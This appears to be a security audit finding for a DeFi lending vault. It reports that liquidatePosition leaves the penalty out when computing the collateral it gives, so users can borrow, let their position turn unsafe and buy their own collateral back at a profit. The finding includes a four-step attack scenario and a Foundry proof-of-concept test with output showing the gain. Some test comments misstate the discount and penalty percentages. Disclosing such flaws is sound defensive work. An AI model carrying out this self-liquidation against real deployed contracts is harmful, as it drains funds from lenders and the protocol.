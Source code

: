 ## [H] Liquidation doesn't account for penalty when calculating collateral to give, allowing users to profit by borrowing and self-liquidating

`CDPVault` allows users to borrow `underlying` from `PoolV3` by depositing collateral into the vault, such that the `(collateral value of their position / liquidationRatio) >= their current total debt`.

Users must repay their debt fully via `CDPVault::repay`, and the amount must cover their entire `current total debt`, which also includes various interest factors. If the value of their collateral divided by `liquidationRatio` is less than the debt of their position, then their position is considered `unsafe` and anyone can `liquidate` the position by buying the collateral at a `discount`. The amount spent by the caller is used to cover for the debt.

To ensure that users cannot profit from self liquidations, the `liquidatePosition` function incorporates a penalty mechanism, that is intended to deduct fees from the payment amount, which subsequently goes to the protocol as profit.

The problem is that when the `liquidatePosition` function calculates the collateral to give to the caller, it utilizes the the repay amount *without* the penalty, essentially functioning as if there is no penalty mechanism at all. The caller can specify any `repay amount`, and the collateral they receive will correspond directly to `repay amount / discount`, with no penalty.

This allows malicious users to profit by `deposit collateral -> borrow WETH -> have their position become unsafe -> buy collateral with WETH at a discount`. Malicious users can profit and steal funds from lenders and the protocol.

> The natspec for the `CDPVault::liquidatePosition` states that "From that repay amount a penalty (`liquidationPenalty`) is subtracted to mitigate against profitable self liquidations." 

However, we will see in the PoC how this has no impact against profitable self liquidations

### Proof of Concept

The following block is executed when users repay their debt:

[CDPVault.sol#L402-L426](relative_path_091409:src/CDPVault.sol#L402-L426)

```javascript
    } else if (deltaDebt < 0) {
@>      uint256 maxRepayment = calcTotalDebt(debtData);
        uint256 amount = abs(deltaDebt);
        if (amount >= maxRepayment) {
            amount = maxRepayment; // U:[CM-11]
            deltaDebt = -toInt256(maxRepayment);
        }

        poolUnderlying.safeTransferFrom(creditor, address(pool), amount);

        uint128 newCumulativeQuotaInterest;
        if (amount == maxRepayment) {
            newDebt = 0;
            newCumulativeIndex = debtData.cumulativeIndexNow;
            profit = debtData.accruedInterest;
            newCumulativeQuotaInterest = 0;
        } else {
            (newDebt, newCumulativeIndex, profit, newCumulativeQuotaInterest) = calcDecrease(
                amount, // delta debt
                position.debt,
                debtData.cumulativeIndexNow, // current cumulative base interest index in Ray
                position.cumulativeIndexLastUpdate,
                debtData.cumulativeQuotaInterest
            );
        }
```

For users to completely repay their loan, they must pay `maxRepayment` amount, which is calculated via a call to `calcTotalDebt`.

If the position is unsafe (`collateral value / liquidation ratio < total debt`), then anyone can liquidate it for a discount:

[CDPVault.sol#L521-L532](relative_path_091409:src/CDPVault.sol#L521-L532)

```javascript
        // load price and calculate discounted price
        uint256 spotPrice_ = spotPrice();
@>      uint256 discountedPrice = wmul(spotPrice_, liqConfig_.liquidationDiscount);
        if (spotPrice_ == 0) revert CDPVault__liquidatePosition_invalidSpotPrice();
        // Ensure that there's no bad debt
        if (calcTotalDebt(debtData) > wmul(position.collateral, spotPrice_)) revert CDPVault__BadDebt();

        // compute collateral to take, debt to repay and penalty to pay
@>      uint256 takeCollateral = wdiv(repayAmount, discountedPrice);
        uint256 deltaDebt = wmul(repayAmount, liqConfig_.liquidationPenalty);
        uint256 penalty = wmul(repayAmount, WAD - liqConfig_.liquidationPenalty);
```

There is also a penalty that the liquidator must pay (deducted from `repayAmount`). This is to mitigate profits from self-liquidation, as stated by the natspec of this function:

[CDPVault.sol#L503-L504](relative_path_091409:src/CDPVault.sol#L503-L504)

```javascript
    /// ... From that repay amount a penalty (`liquidationPenalty`) is subtracted to mitigate against
    /// profitable self liquidations ...
```

So the actual amount of debt repaid by the liquidator is `repayAmount - penalty`:

[CDPVault.sol#L538-L539](relative_path_091409:src/CDPVault.sol#L538-L539)

```javascript
    // transfer the repay amount from the liquidator to the vault
    poolUnderlying.safeTransferFrom(msg.sender, address(pool), repayAmount - penalty);
```

In the same call, the `penalty` is also transferred to the pool, taken as a profit for the protocol.

[CDPVault.sol#L567-L569](relative_path_091409:src/CDPVault.sol#L567-L569)

```javascript
     // Mint the penalty from the vault to the treasury
        poolUnderlying.safeTransferFrom(msg.sender, address(pool), penalty);
        IPoolV3Loop(address(pool)).mintProfit(penalty);
```

However, there is a critical problem here. We can see that the intention here is that the caller pays `repayAmount - penalty` for the debt, and that the penalty goes towards profit.

This can be confirmed by observing the amount of debt that is covered via repayment:

[CDPVault.sol#L530](relative_path_091409:src/CDPVault.sol#L530)

```javascript
     uint256 deltaDebt = wmul(repayAmount, liqConfig_.liquidationPenalty);
```

Note that `repayAmount * liqConfig_.liquidationPenalty` is equivalent to `repayAmount - penalty`. So the debt reduced is `repayAmount - penalty`. The problem is that the *collateral sent to the caller does not incorporate the penalty for liquidation*.

Essentially, this makes the `penalty` redundant, because the caller still receives the full `repayAmount` of collateral specified, including a `discount`.

A malicious user can perform the following attack scenario:

1. Deposit collateral via `CDPVault::deposit`.
2. Borrow WETH via `CDPVault::borrow`.
3. Have their position become unsafe (i.e., wait until enough debt interest is accrued such that `(collateral value of their position / liquidationRatio) < their current total debt`).
4. Fully buy back collateral at a discount.

### Coded PoC

Note: The value of the discount and penalty were chosen by observing the values currently set in `scripts/config.js`, they were not chosen arbitrarily.

Add the following to `test/unit/CDPVault.t.sol` and run `forge test --mt testSelfLiquidateProfit -vv`:

```javascript
    function testSelfLiquidateProfit() public {
        mockWETH.mint(address(this), 20e18);

        // discount = 0.98 ether (0.02% discount)
        // penalty = 0.99 ether (0.01% penalty)
        CDPVault vault = createCDPVault(token, 150 ether, 0, 1.25 ether, 0.99 ether, 0.98 ether);
        createGaugeAndSetGauge(address(vault));

        // create position
        uint256 wethBefore = mockWETH.balanceOf(address(this));
        _modifyCollateralAndDebt(vault, 100 ether, 80 ether);
        uint256 wethBorrowed = mockWETH.balanceOf(address(this)) - wethBefore;
        uint256 collateralDeposited = 100 ether;
        console.log("weth borrowed: ", wethBorrowed);
        console.log("collateral deposited: ", collateralDeposited);
        
        address position = address(this);
        uint256 amountUserMustRepay = vault.virtualDebt(position);
        console.log("Amount of debt user must repay: ", amountUserMustRepay);

        // any attempt to liquidate now will revert because position is safe
        vm.expectRevert(bytes4(keccak256("CDPVault__liquidatePosition_notUnsafe()")));
        vault.liquidatePosition(position, 1 ether);

        // user waits some time for price to change so position becomes unsafe (but no bad debt yet)
        // in reality, interest will accrue, however to make this PoC simple we will update spot price (which is another way user can take advantage)
        _updateSpot(0.80 ether);
        (uint256 collateral, uint256 debt , , , , ) = vault.positions(position);

        // calculate amount to repay to fully liquidate position.
        uint256 spotAmt = oracle.spot(address(token));
        uint256 discountPercent = 0.98 ether;
        uint256 discountAmount = wmul(spotAmt, discountPercent);
        uint256 repayFull = wmul(collateral, discountAmount);
        console.log("Amount user is repaying: ", repayFull);
        mockWETH.approve(address(vault), repayFull);

        // fully liquidate position
        wethBefore = mockWETH.balanceOf(address(this));
        uint collateralBefore = token.balanceOf(address(this));
        vault.liquidatePosition(position, repayFull);
        uint256 wethSpent = wethBefore - mockWETH.balanceOf(address(this));
        uint256 collateralReceived = token.balanceOf(address(this)) - collateralBefore;
        console.log("weth spent: ", wethSpent);
        console.log("collateral received: ", collateralReceived);
        
        console.log("Total WETH earned: ", wethBorrowed - wethSpent);
        console.log("collateral lost: ", collateralDeposited -  collateralReceived);

        // confirm that collateral in position is 0
        (collateral, debt, , , , ) = vault.positions(position);
        console.log("collateral remaining in position: ", collateral);
    }
```

```text
[PASS] testSelfLiquidateProfit() (gas: 3761322)
Logs:
  weth borrowed:  80000000000000000000
  collateral deposited:  100000000000000000000
  Amount of debt user must repay:  80000000000000000000
  Amount user is repaying:  78400000000000000000
  weth spent:  78400000000000000000
  collateral received:  100000000000000000000
  Total WETH earned:  1600000000000000000
  collateral lost:  0
  collateral remaining in position:  0

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 5.46ms

Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

As displayed in the coded PoC, since the user receives the full amount of collateral without the penalty applied to the amount they receive, the user profits 1.6e18 WETH with the attack scenario described above.



